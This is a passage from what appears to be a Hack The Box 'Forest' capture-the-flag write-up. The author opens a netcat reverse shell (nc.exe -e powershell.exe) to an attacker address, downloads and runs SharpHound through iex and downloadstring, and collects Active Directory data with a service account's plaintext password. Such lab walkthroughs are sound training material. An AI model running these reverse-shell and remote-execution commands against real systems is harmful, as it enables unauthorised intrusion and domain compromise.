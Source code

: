 Now we setup a listener in other terminal and ran in the terminal of evil-winrm:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> .\nc.exe 10.10.14.35 4242 -e powershell.exe
```

In the other terminal we get a nc shell. 

```bash
dumbland () hgfs/hackthebox/forest :: nc -nlvp 4242
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.10.161.
Ncat: Connection from 10.10.10.161:50092.
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\svc-alfresco\Documents> iex (new-object net.webclient).downloadstring('http://10.10.14.35:4242/SharpHound.ps1')
iex (new-object net.webclient).downloadstring('http://10.10.14.35:4242/SharpHound.ps1')
PS C:\Users\svc-alfresco\Documents> Invoke-Bloodhound -CollectionMethod All -LDAPPort 389 -LDAPUser svc-alfresco -LDAPPass s3rvice
Invoke-Bloodhound -CollectionMethod All -LDAPPort 389 -LDAPUser svc-alfresco -LDAPPass s3rvice
```

Collect the file generate by sharphound and import in bloodhound. Lets analyze the informations to see if I  found the path to pwn the active directory:

![](https://github.com/dumbx90/dumbx90.github.io/blob/master/assets/img/commons/forest-blodhound-path.jpg?raw=true)
